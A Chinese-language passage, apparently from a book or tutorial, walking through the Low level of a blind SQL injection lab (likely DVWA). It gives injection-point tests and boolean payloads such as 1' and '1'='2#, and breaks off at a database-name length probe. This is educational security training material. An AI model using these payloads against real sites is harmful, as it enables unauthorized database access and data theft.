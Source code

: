 SQL Injection（Blind），即 SQL 盲注，与一般注入的区别在于，一般的注入攻击者可以直接从页面上看到注入语句的执行结果，而盲注时攻击者通常是无法从显示页面上获取执行结果，甚至连注入语句是否执行都无从得知，因此盲注的难度要比一般注入高。目前网络上现存的 SQL 注入漏洞大多是 SQL 盲注。

---

### 思路

1.判断是否存在注入，注入是字符型还是数字型

2.猜解当前数据库名

3.猜解数据库中的表名

4.猜解表中的字段名

5.猜解数据

-----

### SQL injection Blind Low

#### 寻找注入点

```
payload：1
```

![image-20230330171331743](D:\Document\My_book\My_Books\钟全龙著\img\image-20230330171331743.png)

```
payload：
1 and 1=1
1 and 1=2
```

返回结果：

![image-20230330171806445](D:\Document\My_book\My_Books\钟全龙著\img\image-20230330171806445.png)

此处表示该地方不是数字型注入点。

```
payload：
1'
1' and '1'='1#
1' and '1'='2#
```

![image-20230330172006376](D:\Document\My_book\My_Books\钟全龙著\img\image-20230330172006376.png)

返回结果中还有Missing，没有信息的意思，所以这里是字符型注入点。

#### 获取数据库字长度

```
payload：
1' and length(database())
```
